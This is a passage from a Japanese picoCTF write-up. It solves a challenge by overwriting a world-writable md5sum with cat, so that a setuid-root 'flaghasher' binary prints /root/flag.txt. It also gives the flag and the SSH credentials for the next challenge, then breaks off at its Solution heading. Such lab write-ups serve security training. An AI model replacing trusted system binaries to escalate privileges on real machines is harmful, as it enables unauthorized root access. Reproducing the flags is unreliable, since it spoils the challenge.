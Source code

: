 <pre>
ctf-player@pico-chall$ ls -al
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Mar 13 08:10 .
drwxr-xr-x 1 root       root          24 Mar  6 03:44 ..
drwx------ 2 ctf-player ctf-player    34 Mar 13 08:10 .cache
-rw-r--r-- 1 root       root          67 Mar  6 03:45 .profile
-rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher

ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....
</pre>


<br /><br />

md5sumのパーミッションを見たら、上書きが可能でした。

<pre>
ctf-player@pico-chall$ ls -al /usr/bin/md5sum
-rwxrwxrwx 1 root root 47480 Sep  5  2019 /usr/bin/md5sum
</pre>


<br /><br />

ということで、cat コマンドを md5sum コマンドとして上書きしちゃいます。

<pre>
ctf-player@pico-chall$ cp /usr/bin/cat /usr/bin/md5sum

ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}
</pre>

<br />

Flag: `picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}`




<br /><br />
<br /><br />
## [Binary Exploitation]: hash-only-2 (200 points)
- - -
### Challenge
> Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content! <br />
Connect using ssh ctf-player@rescued-float.picoctf.net -p 53489 with the password, 83dcefb7 and run the binary named "flaghasher".

<br />

### Solution
